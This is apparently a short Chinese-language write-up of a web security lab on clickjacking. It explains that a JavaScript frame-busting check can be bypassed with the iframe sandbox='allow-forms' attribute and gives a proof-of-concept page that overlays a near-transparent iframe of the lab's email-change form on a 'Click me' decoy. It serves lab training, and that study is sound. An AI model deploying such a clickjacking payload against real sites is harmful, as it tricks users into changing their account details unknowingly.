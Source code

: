 页面使用javascript脚本对页面进行了限制：

![](images/24DE6EDA96B748448B3E6FC505F84AFBclipboard.png)

使页面不能够iframe化



但是这个方法存在绕过，可以使用 iframe标签的sandbox="allow-forms" 属性进行绕过



poc:

```javascript
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:450px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://ac761fae1ef30c8d80f54ea2004e0051.web-security-academy.net/email?email=111@qq.com" sandbox="allow-forms"></iframe>
```

